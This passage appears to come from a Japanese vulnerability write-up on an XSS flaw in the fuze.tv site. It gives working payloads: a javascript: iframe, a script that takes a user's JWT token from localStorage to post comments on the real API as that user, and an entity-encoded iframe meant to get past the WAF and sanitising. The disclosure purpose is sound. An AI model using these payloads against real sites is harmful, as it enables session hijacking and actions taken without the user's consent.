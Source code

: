 ![](/fuze.tv-high-impact-xss/2.png)  
![](/fuze.tv-high-impact-xss/3.png)

### Iframe を使った XSS

Content-Security-Policy が設定されておらず、 Iframe から XSS を入力することができた。  
また、エンコードされた文字列が WAF を通過すると判明。  
サニタイジングを回避して制限なしに XSS を発火させることができた。

```html
<iframe src="javascript:alert(document.domain)"></iframe>
```

```html
<script>
  const scheme = ["ht", "tp", "s"];
  const payload = {
    message: "Hello there",
    parentId: "0",
    attachedVideoEntryId: null,
  };
  const param = {
    method: "POST",
    headers: {
      Authorization: localStorage.getItem("jwt_token"),
      Accept: "application/json, text/plain, */*",
      "Content-Type": "application/json;charset=UTF-8",
    },
    body: JSON.stringify(payload),
  };
  fetch(
    scheme.join("") + "://brain.fuze.tv/api/feed/comment/{commentTo}/{paramId}",
    param
  )
    .then((res) => {
      return res.json();
    })
    .then((json) => {
      alert("executed");
    });
</script>

<iframe
  srcdoc="&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x63;&#x6F;
  ...
  &#x3B;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;"
>
</iframe>
```

{{< youtube GFQAT_XZqW4 >}}
{{< youtube SZC8QsLz8Mo >}}


[^1]: [ダウンロード数](https://www.overwolf.com/app/fuze_tv-fuze_tv)より推定
[^2]: https://datatracker.ietf.org/doc/html/rfc6749#section-10.4